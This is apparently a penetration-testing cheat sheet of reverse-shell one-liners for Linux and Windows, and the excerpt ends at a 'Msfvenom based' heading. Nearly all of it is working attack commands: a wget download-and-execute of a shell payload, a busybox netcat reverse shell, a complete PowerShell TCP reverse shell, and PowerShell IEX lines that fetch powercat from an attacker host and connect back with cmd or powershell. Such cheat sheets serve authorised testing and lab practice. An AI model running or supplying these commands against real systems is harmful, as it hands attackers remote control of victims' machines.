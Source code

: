 ```jsx
wget 192.168.45.194/payload/bash-shell -O /tmp/shell
chmod +x /tmp/shell
/tmp/shell
```

```jsx
busybox nc 192.168.45.218 443 -e sh
```

### TTY Linux

```jsx
which python / which python3

python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo;fg
reset
xterm
```

## Windows

```jsx
powershell -Command whoami
```

PowerShell - one-liner:

```jsx
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe%20-enc%20<base64 encoded payload>
```

```jsx
powershell $client = New-Object System.Net.Sockets.TCPClient("192.168.45.205",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

PowerShell + Powercat

```jsx
powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.191/powercat.ps1');powercat -c 192.168.45.191 -p 443 -e powershell

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.168/powercat.ps1'); powercat -c 192.168.45.168 -p 443 -e cmd.exe

cmd /c "powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.197/powercat.ps1'); powercat -c 192.168.45.197 -p 443 -e cmd.exe"
```

Msfvenom based
